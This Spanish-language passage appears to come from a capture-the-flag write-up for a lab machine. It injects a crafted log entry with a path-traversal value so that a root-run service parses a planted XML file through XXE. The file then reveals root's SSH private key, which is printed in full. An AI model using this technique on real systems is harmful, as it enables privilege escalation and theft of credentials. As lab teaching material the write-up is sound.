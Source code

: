 Y se acontece perfectamente el XXE.

Ahora vamos a intentar leer la id_rsa del usuario `root` , a ver si existe.
Solamente modificamos el archivo a leer
![Write-up Image](images/Screenshot_12.png)

Agregamos de nuevo el log...
```shell
woodenk@redpanda:/opt/panda_search$ echo '200||10.10.14.80||Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0||/../../../../../../tmp/pointed.jpg' > redpanda.log
<|/../../../../../../tmp/pointed.jpg' > redpanda.log
woodenk@redpanda:/opt/panda_search$ cat redpanda.log 
cat redpanda.log 
200||10.10.14.80||Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0||/../../../../../../tmp/pointed.jpg
woodenk@redpanda:/opt/panda_search$
```

Y si leemos el archivo `/tmp/pointed_creds.xml` de nuevo...
```shell
woodenk@redpanda:/opt/panda_search$ cat /tmp/pointed_creds.xml
cat /tmp/pointed_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root>
<credits>
  <author>pointed</author>
  <image>
    <uri>../../../../../../../pointed.jpg</uri>
    <views>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</views>
  </image>
  <totalviews>1</totalviews>
</credits>
```
